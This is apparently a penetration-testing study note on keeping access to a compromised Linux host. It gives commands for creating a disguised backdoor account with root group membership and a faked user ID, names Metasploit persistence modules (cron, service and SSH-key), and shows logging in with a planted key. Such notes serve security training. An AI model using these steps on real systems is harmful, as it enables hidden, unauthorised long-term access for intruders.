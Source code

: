 # Establishing Persistence On Linux

* Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials and other interruptiongs that could cut off their access.
* Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.
* The persistence techniques we can utilize will depend on the target configuration.
* We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.

## Practice Demo

<mark style="color:blue;">We start by exploiting the "chkrookit" vulnerability to get root access on the target</mark>

<mark style="color:red;">YOU NEED ROOT PRIVILEGES FOR ALL OF THIS</mark>

### Creating a backdoor user

When creating a backdoor user, provide it a name that is difficult to identify.

* <mark style="color:yellow;">useradd -m ftp -s /bin/bash</mark>
  * <mark style="color:purple;">NOTE:</mark> Have in mind that we can specify a <mark style="color:red;">home directory</mark> (in this case it is the default), to blend in more since we are trying to mimic a <mark style="color:blue;">service account.</mark> And also could define the shell to be <mark style="color:red;">/usr/sbin/nologin</mark>

Define the password with:

* <mark style="color:yellow;">passwd ftp</mark>

#### Provide the new user with root privileges

* <mark style="color:yellow;">usermod -aG root ftp</mark>
  * <mark style="color:yellow;">-aG</mark>: Add to group

#### Change the user ID to make it look like it wasn't just created

* <mark style="color:yellow;">usermod -u 15 ftp</mark>
  * Sets the ID as 15

Now we can login through SSH with this account.

### Using a msf module for persistence

* <mark style="color:yellow;">exploit/linux/at\_package\_manager\_persistence</mark>: Will run a payload everytime the package manager is used. <mark style="color:red;">NOT GREAT</mark>
* <mark style="color:yellow;">exploit/linux/local/cron\_persistence</mark>: Creates a cron job that connects to your handler
  * Default timing is 60 seconds
  * Make sure LPORT is not conflicting
* <mark style="color:yellow;">exploit/linux/local/service\_persistence:</mark> Creates a service on the target, marks it for auto-restart. Enough access is needed to write services files and potentially restart them
  * Set the payload
* <mark style="color:yellow;">exploit/linux/manage/sshkey\_persistence</mark>: Sets up a key pair and adds the public key to the home directories of a specified user or all users on the target system. <mark style="color:red;">GREAT MODULE</mark>
  * set CREATESSHFOLDER true
  * set SESSION

Now just copy the private key, that is in the <mark style="color:red;">loot.</mark>

Create a "<mark style="color:red;">ssh\_key</mark>" file and give it the necessary permissions<mark style="color:red;">:</mark>

* <mark style="color:yellow;">chmod 0400 ssh\_key</mark>

Now we can authenticate no any user we want.

* <mark style="color:yellow;">ssh -i 'ssh\_key' root@targetIP</mark>



